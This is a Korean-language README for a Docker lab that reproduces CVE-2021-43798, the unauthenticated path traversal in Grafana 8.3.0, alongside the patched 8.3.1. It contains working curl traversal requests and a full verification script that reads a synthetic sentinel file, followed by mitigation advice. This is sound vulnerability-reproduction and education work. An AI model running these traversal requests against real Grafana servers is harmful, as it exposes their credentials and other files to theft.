




# Grafana CVE-2021-43798 
## Contributors
<table>
  <tr>
    <td align="center">
      <a href="https://github.com/RatelXD">
        
        <br />
        <sub><b>@RatelXD</b></sub>
      </a>
    </td>
  <tr>
<table>

## 1. 취약점 개요

CVE-2021-43798은 Grafana의 설치된 플러그인 정적 파일 경로 처리에서 발생하는 인증 없는 경로 탐색(Path Traversal) 취약점입니다. 공격자는 `/public/plugins/<plugin-id>/` 경로 뒤에 `../`를 포함한 요청을 보내 Grafana 프로세스가 읽을 수 있는 컨테이너 내부 파일을 조회할 수 있습니다.

- CVE: CVE-2021-43798
- 유형: Path Traversal / 임의 파일 읽기
- CVSS v3.1: 7.5 (`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`)
- 영향 범위:
  - 8.0.0-beta1 이상 8.0.7 미만
  - 8.1.0 이상 8.1.8 미만
  - 8.2.0 이상 8.2.7 미만
  - 8.3.0
- 수정 버전: 8.0.7, 8.1.8, 8.2.7, 8.3.1 이상

이 실습은 취약 버전 8.3.0과 같은 계열의 수정 버전 8.3.1을 나란히 비교합니다.

### 취약 조건

- Grafana가 위 영향 범위에 해당하는 버전이어야 합니다.
- 공격자가 Grafana HTTP 서비스에 접근할 수 있어야 합니다.
- `alertlist`처럼 설치된 플러그인의 ID를 경로에 사용해야 합니다.
- 이 취약점의 파일 읽기 요청 자체에는 로그인이 필요하지 않습니다.

### 평가 요약

- **Reproducibility: 100% (본 작성 환경 검증 기준)** — digest로 고정한 두 이미지를 `docker compose` 하나로 빌드·기동했고, 자동 검증에서 8.3.0은 HTTP 200과 합성 표식을 반환하고 8.3.1은 HTTP 404로 표식을 반환하지 않음을 확인했습니다.
- **Risk Score: 7.5/10 (High)** — 인증 없이 네트워크로 악용 가능하고 사용자 상호작용이 필요 없으며, Grafana 프로세스가 읽을 수 있는 파일의 기밀성에 높은 영향을 줍니다. 이 CVSS 벡터에서는 무결성과 가용성 영향은 없는 것으로 평가합니다.

## 2. 실습 구성

```text
Host
├── 127.0.0.1:3000 → Grafana 8.3.0 (취약)
└── 127.0.0.1:3001 → Grafana 8.3.1 (수정)
                         │
                         └── /opt/whs-lab/proof.txt
                             WHS-CVE-2021-43798-SENTINEL
```

두 컨테이너에는 동일한 합성 표식 파일만 추가합니다. `privileged` 모드, Docker 소켓, 호스트 디렉터리 마운트는 사용하지 않으며 포트는 루프백 주소에만 바인딩합니다.

재현성을 위해 공식 Grafana 8.3.0 및 8.3.1 이미지 태그뿐 아니라 멀티 아키텍처 manifest digest도 `compose.yaml`에 고정했습니다.

## 3. 사전 준비

- Docker Engine 또는 Docker Desktop
- Docker Compose v2 (`docker compose`)
- `curl`
- POSIX 호환 셸 (`sh` 또는 `bash`)

모든 명령은 이 README가 있는 디렉터리에서 실행합니다.

## 4. 빌드 및 실행

```bash
docker compose up --build -d
docker compose ps
```

브라우저에서 다음 주소로 각 Grafana 화면을 확인할 수 있습니다.

- 취약 버전: `http://127.0.0.1:3000`
- 수정 버전: `http://127.0.0.1:3001`

컨테이너가 준비될 때까지 잠시 기다린 뒤 아래 PoC를 실행합니다.

## 5. 취약점 재현

### 수동 확인

`curl`이 `../` 경로를 정규화하지 않도록 반드시 `--path-as-is` 옵션을 사용합니다.

취약한 8.3.0:

```bash
curl --path-as-is \
  'http://127.0.0.1:3000/public/plugins/alertlist/../../../../../../../../opt/whs-lab/proof.txt'
```

예상 결과:

```text
WHS-CVE-2021-43798-SENTINEL
```

수정된 8.3.1:

```bash
curl --path-as-is -i \
  'http://127.0.0.1:3001/public/plugins/alertlist/../../../../../../../../opt/whs-lab/proof.txt'
```

이 고정된 8.3.1 환경의 예상 결과는 HTTP 404이며, 응답 본문에 `WHS-CVE-2021-43798-SENTINEL`이 없어야 합니다. 자동 비교 스크립트는 두 조건을 모두 만족해야 통과시킵니다.

### 자동 비교

```bash
sh ./poc/verify.sh
```

정상적으로 비교가 끝나면 마지막에 다음 메시지가 출력됩니다.

```text
[PASS] CVE-2021-43798 vulnerable/fixed comparison completed safely.
```

스크립트는 두 서비스의 `/api/health` 응답을 기다린 뒤, 8.3.0에서 표식이 노출되고 8.3.1에서는 노출되지 않는지 검사합니다. 어느 조건이든 다르면 실패 코드로 종료합니다.

보고서 PDF에도 PoC 코드가 포함되도록 `poc/verify.sh`의 전체 내용은 다음과 같습니다.

```sh
#!/bin/sh
set -eu

VULNERABLE_BASE_URL="${VULNERABLE_BASE_URL:-http://127.0.0.1:3000}"
FIXED_BASE_URL="${FIXED_BASE_URL:-http://127.0.0.1:3001}"
TRAVERSAL_PATH="/public/plugins/alertlist/../../../../../../../../opt/whs-lab/proof.txt"
SENTINEL="WHS-CVE-2021-43798-SENTINEL"
MAX_ATTEMPTS="${MAX_ATTEMPTS:-60}"

fail() {
  printf '[FAIL] %s\n' "$1" >&2
  exit 1
}

wait_for_grafana() {
  name="$1"
  base_url="$2"
  attempt=1

  while [ "$attempt" -le "$MAX_ATTEMPTS" ]; do
    if curl --fail --silent --show-error \
      --connect-timeout 3 --max-time 10 \
      "${base_url}/api/health" >/dev/null 2>&1; then
      printf '[READY] %s: %s\n' "$name" "$base_url"
      return 0
    fi
    sleep 2
    attempt=$((attempt + 1))
  done

  fail "$name did not become ready: $base_url"
}

request_traversal() {
  base_url="$1"
  output_file="$2"

  curl --path-as-is --silent --show-error \
    --connect-timeout 3 \
    --max-time 10 \
    --output "$output_file" \
    --write-out '%{http_code}' \
    "${base_url}${TRAVERSAL_PATH}"
}

vulnerable_body="$(mktemp)"
fixed_body="$(mktemp)"
trap 'rm -f "$vulnerable_body" "$fixed_body"' EXIT HUP INT TERM

wait_for_grafana "vulnerable Grafana 8.3.0" "$VULNERABLE_BASE_URL"
wait_for_grafana "fixed Grafana 8.3.1" "$FIXED_BASE_URL"

vulnerable_status="$(request_traversal "$VULNERABLE_BASE_URL" "$vulnerable_body")"
if ! grep -Fqx "$SENTINEL" "$vulnerable_body"; then
  fail "vulnerable target did not disclose the sentinel (HTTP $vulnerable_status)"
fi
if [ "$vulnerable_status" != "200" ]; then
  fail "vulnerable target returned an unexpected status (expected 200, got $vulnerable_status)"
fi
printf '[PASS] vulnerable 8.3.0 disclosed only the synthetic sentinel (HTTP %s)\n' "$vulnerable_status"

fixed_status="$(request_traversal "$FIXED_BASE_URL" "$fixed_body")"
if grep -Fq "$SENTINEL" "$fixed_body"; then
  fail "fixed target unexpectedly disclosed the sentinel (HTTP $fixed_status)"
fi
if [ "$fixed_status" != "404" ]; then
  fail "fixed target returned an unexpected status (expected 404, got $fixed_status)"
fi
printf '[PASS] fixed 8.3.1 did not disclose the sentinel (HTTP %s)\n' "$fixed_status"

printf '[PASS] CVE-2021-43798 vulnerable/fixed comparison completed safely.\n'
```

## 6. 실행 결과 및 캡처 체크리스트

기본 포트 3000/3001에서 직접 실행한 결과는 다음과 같습니다.

- Grafana 8.3.0: HTTP 200과 `WHS-CVE-2021-43798-SENTINEL` 노출
- Grafana 8.3.1: HTTP 404, 합성 표식 미노출
- 자동 비교 스크립트: 취약 버전 노출과 수정 버전 차단을 확인하고 최종 PASS

실행 화면은 `docs/images/`에 로컬 파일로 저장했습니다.

1. 빌드 및 두 컨테이너 실행 상태:


2. 취약 버전에서 합성 표식 노출:


3. 수정 버전에서 합성 표식 미노출:


4. 자동 비교 스크립트의 최종 PASS:


## 7. 대응 방안

- 사용 중인 Grafana 계열의 수정 버전(8.0.7, 8.1.8, 8.2.7, 8.3.1 이상)으로 즉시 업그레이드합니다.
- 외부에서 Grafana에 직접 접근하지 못하도록 네트워크 접근을 제한하고, 필요한 경우 리버스 프록시나 방화벽에서 비정상적인 경로 탐색 요청을 차단합니다.
- 노출 가능성이 있었던 데이터 소스 자격 증명, API 키 등 비밀정보를 교체하고 관련 접근 로그를 점검합니다.
- 컨테이너에는 최소 권한만 부여하고 호스트 경로 및 Docker 소켓 마운트를 피합니다.

## 8. 한계와 안전 범위

- 이 재현이 입증하는 범위는 **Grafana 컨테이너 내부에서 Grafana 프로세스가 읽을 수 있는 파일의 노출**입니다.
- 컨테이너 탈출, 호스트 파일 읽기, 권한 상승을 입증하거나 주장하지 않습니다.
- 안전을 위해 실습용 합성 파일 `/opt/whs-lab/proof.txt`만 읽으며 `/etc/passwd`, 환경설정, 데이터베이스 또는 실제 비밀정보는 읽지 않습니다.
- 이 구성은 교육용 로컬 실습 환경이며 운영 환경에 배포하면 안 됩니다.

## 9. 종료 및 정리

```bash
docker compose down --volumes --remove-orphans
```

이미지까지 정리하려면 다음 명령을 추가로 실행합니다.

```bash
docker compose down --rmi local --volumes --remove-orphans
```

## 10. 참고 자료

- [Grafana security advisory: CVE-2021-43798](https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/)
- [Grafana GitHub security advisory GHSA-8pjx-jj86-j47p](https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p)
- [NVD: CVE-2021-43798](https://nvd.nist.gov/vuln/detail/CVE-2021-43798)
